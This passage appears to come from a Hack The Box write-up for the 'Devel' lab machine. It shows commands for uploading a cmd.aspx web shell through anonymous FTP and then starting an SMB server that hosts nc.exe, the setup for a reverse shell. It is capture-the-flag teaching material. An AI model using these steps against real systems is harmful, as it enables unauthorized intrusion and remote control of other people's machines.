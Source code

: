 
```
┌──(kali㉿kali)-[~/Desktop]
└─$ locate cmd.aspx                            
/usr/share/davtest/backdoors/aspx_cmd.aspx
/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx
                                                                                                                     
┌──(kali㉿kali)-[~/Desktop]
└─$ cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx .

┌──(kali㉿kali)-[~/Desktop]
└─$ ftp 10.10.10.5                                                                                               2 ⚙
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put cmd.aspx
local: cmd.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.00 secs (20.2235 MB/s)
```

Accessing http://devel.htb/cmd.aspx will then give us a webshell.
![Webshell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Devel/webshell.png)

### Obtaining reverse shell

To obtain the reverse shell, we would first need to create a directory for smb and copy the nc.exe executable to the directory

```
┌──(kali㉿kali)-[~/Desktop]
└─$ mkdir smb

┌──(kali㉿kali)-[~/Desktop]
└─$ cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe smb
```

Afterwards, we will have to start the smbserver to host the nc.exe executable

```
┌──(HTB)─(kali㉿kali)-[~/Desktop/impacket/examples]
└─$ impacket-smbserver share smb                                                                               2 ⚙
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
